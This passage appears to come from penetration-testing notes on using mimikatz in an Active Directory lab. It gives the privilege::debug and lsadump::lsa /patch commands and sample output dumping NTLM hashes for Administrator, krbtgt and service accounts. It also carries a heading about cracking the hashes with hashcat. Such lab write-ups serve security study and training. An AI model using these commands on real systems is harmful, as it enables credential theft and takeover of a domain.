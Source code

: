 `mimikatz` is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network.

```cmd
PS C:\Users\Administrator\Downloads> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51              
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                               
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                    
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/ 
```

- [`privilege::debug`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-privilege) (to be executed as an administrator) ask for **SeDebugPrivilege** in order to interact with the LSASS process:

```cmd
mimikatz # privilege::debug 
Privilege '20' OK 
```

### Dumping NTLM hashes and cracking them using `hashcat`

- `lsadump::lsa /patch` dumps the NTLM password hashes:


```cmd
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f4 (500)                                         
User : Administrator                                          
LM   :                                                        
NTLM : 2777b7fec870e04dda00cd7260f7bee6                       
                                                              
RID  : 000001f5 (501)                                         
User : Guest                                                  
LM   :                                                        
NTLM :                                                        
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
LM   :                                                        
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :  
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
```